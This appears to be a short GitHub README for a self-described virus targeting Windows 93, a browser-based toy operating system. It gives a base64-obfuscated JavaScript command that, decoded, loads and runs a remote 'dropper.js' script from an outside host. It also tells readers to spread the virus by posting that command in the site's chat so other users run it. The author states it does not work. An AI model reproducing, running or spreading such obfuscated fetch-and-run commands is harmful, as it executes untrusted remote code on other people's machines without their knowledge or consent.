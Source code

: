 # Basic93Virus
Very basic virus for windows 93    

## How to run

To load, use terminal command:    
`js data:application/javascript;base64,JGxvYWRlcihbJ2h0dHBzOi8vZ2hjZG4ucmF3Z2l0Lm9yZy9PdXRSaXRlL0Jhc2ljOTNWaXJ1cy9tYWluL2Ryb3BwZXIuanMnXSwgJG5vb3ApOw==`    
Spread via trollbox as message:    
`/exe js data:application/javascript;base64,JGxvYWRlcihbJ2h0dHBzOi8vZ2hjZG4ucmF3Z2l0Lm9yZy9PdXRSaXRlL0Jhc2ljOTNWaXJ1cy9tYWluL2Ryb3BwZXIuanMnXSwgJG5vb3ApOw==`

## Does it work?
no
